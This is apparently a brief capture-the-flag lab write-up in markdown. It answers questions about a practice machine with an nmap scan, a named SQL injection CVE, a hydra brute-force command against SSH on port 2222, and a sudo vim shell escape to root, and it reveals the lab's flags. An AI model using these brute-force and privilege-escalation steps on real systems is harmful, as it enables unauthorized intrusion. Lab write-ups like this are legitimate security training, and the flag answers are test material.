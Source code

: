 # How many services are running under port 1000?
`nmap -sV -oN initial IP`

# What is running on the higher port?
ssh

# CVE
cve-2019-9053

# kind of vulnerability
sql-injection

# password
remember to specify the 2222 port for ssh  
`hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 IP -t 4 ssh`  
<details>
secret
<summary>password</summary>
</details>

# where can you login
ssh

# user flag

<details>
G00d j0b, keep up!
<summary>user.txt</summary>
</details>

# other users
`ls /home`

# priveleged shell
`sudo -l` --> vim  
`sudo vim script.sh` --> `:!sh`  

# root flag
`cat /root/root.txt`
<details>
W3ll d0n3. You made it!
<summary>root.txt</summary>
</details>
